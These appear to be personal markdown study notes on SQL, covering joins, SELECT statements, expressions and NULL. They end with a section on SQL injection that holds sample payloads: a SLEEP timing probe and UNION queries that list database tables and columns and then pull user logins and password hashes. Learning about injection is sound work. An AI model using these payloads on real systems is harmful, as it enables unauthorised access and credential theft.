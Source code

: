 # SQL

* Designed to work with *Relational Databases*
* A query result is best described as a *record* (i.e., not a row as query results may be columns as well)

## Language

* Relational Database: a data store that is capable of representing relationships between different data sets.
  - displayed in rows and columns
* DML: add, query, manipulate, delete data from tables and datasets.
* DDL: defines tables, indexes, and relationships.
* DMS - Database Management System: Oracle, PostgreSQL, SQLite, MySQL

## Joins

* `INNER JOIN` or typically just `JOIN` as this is the default:
<img alt="Inner Join" src="/assets/inner_join.png" width="300">

* `LEFT OUTER JOIN` or typically just `LEFT JOIN`:
![Left Join](/assets/left_outer_join.png)

* `RIGHT OUTER JOIN` or typically just `RIGHT JOIN` - not supported in many database systems such as SQLite:
![Right Join](/assets/right_outer_join.png)

* `FULL OUTER JOIN` or typically just `FUL JOIN` - not supported in many database systems such as SQLite:
![Right Join](/assets/full_outer_join.png)

## SQL Practice

### Format
* SQL *statements* that begin with `SELECT` are commonly referred to as "SELECT Statements".
```SQL
-- KEYWORD;
SELECT table.* FROM table;
```
* Common [SQL clauses](https://en.wikipedia.org/wiki/SQL_syntax#Queries): `FROM`, `WHERE`, `GROUP BY`, `ORDER BY`, `DISTINCT`
```SQL
-- Select all attributes with FROM and WHERE clause
SELECT country.* FROM country WHERE country.continent = 'Asia';

-- Select specific attributes
SELECT country.name, country.population, country.region
  FROM country
  WHERE country.continent = 'Asia';

-- Rename Attribute
SELECT country.name, country.population as 'Pop', country.region
  FROM country
  WHERE country.continent = 'Asia';
```
* Functions: `COUNT(*)`
```SQL
SELECT COUNT(*) FROM country WHERE country.continent = 'Asia';
```
* Expressions: Used to derive data from a statement.
```SQL
-- Multiple expressions
SELECT country.name, country.population / 1000000 as 'Pop (in millions)', country.region
  FROM country
  -- Logical Expression
  WHERE country.continent = 'Asia' AND country.population > 1000000
  -- With order clause
  ORDER BY country.population DESC;
```

```SQL
  -- ORDER By
  SELECT country.* FROM country WHERE country.code <> "AFG" ORDER BY country.code;

  -- Not Equal To <>
  SELECT country.* FROM country WHERE country.code <> "AFG" ORDER BY country.code;

  -- AS for a column name
  SELECT country.name, country.code, country.IndepYear AS 'Year of Independence' FROM country WHERE country.code <> "AFG" ORDER BY country.code;
```

Return the capital cities of countries with more than a million population in order of continent and population.
```SQL
-- Countries where populations is >= 10 million
SELECT country.continent, country.name, country.capital, country.population / 1000000 AS 'PopMM'
  FROM country
  WHERE country.population >= 10
  ORDER BY country.continent ASC, country.population DESC
```
```SQL
SELECT c.continent, c.name AS 'Country', c.capital, c.PopMM AS 'Population (in millions)', city.name AS 'Capital'
  FROM (
    -- Countries where populations is >= 10 million
    SELECT country.continent, country.name, country.capital, country.population / 1000000 AS 'PopMM'
      FROM country
      WHERE country.population >= 10
      ORDER BY country.continent ASC, country.population DESC
  ) AS c
  JOIN city
  -- In this case you can use ON or WHERE
  ON city.id = c.capital
  ORDER BY c.continent, c.PopMM DESC;
```

### Expressions

```SQL
-- COUNT
SELECT COUNT('country.*') FROM country;
-- COUNT('country.*')
-- 239
SELECT COUNT(*) FROM country;
-- COUNT(*)
-- 239
```

```SQL
-- Arithmetic
SELECT 1+10;
```

*SQLite* [date and time functions](https://sqlite.org/lang_datefunc.html)

```SQL
-- This is SQLite specific
SELECT strftime('%j %H %w %f', datetime());
-- strftime('%j %H %w %f', datetime())
-- 228 12 3 11.000
```

### Null

* `NULL` is a state not a value.

## LeftOuterJoin

Keeps all the records on the left after the join occurs - otherwise, it would just join with the right table and return only those results that can be joined

To practice writing in rails:

```SQL
ActiveRecord::Base
  .connection
  .execute(
    "SELECT \"events\".*
    FROM \"events\"
    ORDER BY \"events\".updated_at DESC"
  )
  .to_a.first
```

## SQL Injection

[Running an SQL Injection Attack - Computerphile](https://youtu.be/ciNHn38EyRc)

```SQL
-- SLEEP is an SQL command
SELECT ? FROM ? WHERE ? LIKE %hammer% AND 0 = SLEEP(2);

-- UNION Appends - makes sure column count matches

-- Get the table names of all the tables
-- we are selecting 3 columns b/c it must match the original SELECT call
SELECT ?,?,? FROM ? WHERE ? LIKE %hammer% UNION (SELECT TABLE_NAME, TABLE_SCHEMA, 3 FROM information_schema.table); --%';

-- Get the column names of the users table
SELECT ?,?,? FROM ? WHERE ? LIKE %hammer% UNION (SELECT COLUMN_NAME, 2, 3 FROM information_schema.columns WHERE TABLE_NAME = 'users'); --%';

-- GEt the particular data for each user
SELECT ?,?,? FROM ? WHERE ? LIKE %hammer% UNION (SELECT uLogin, uHash, uType FROM users); --%''
```

![SQL_Injected_Products_Table](/assets/sql_injected_products_table.png)

## HTTP vs TCP vs UDP
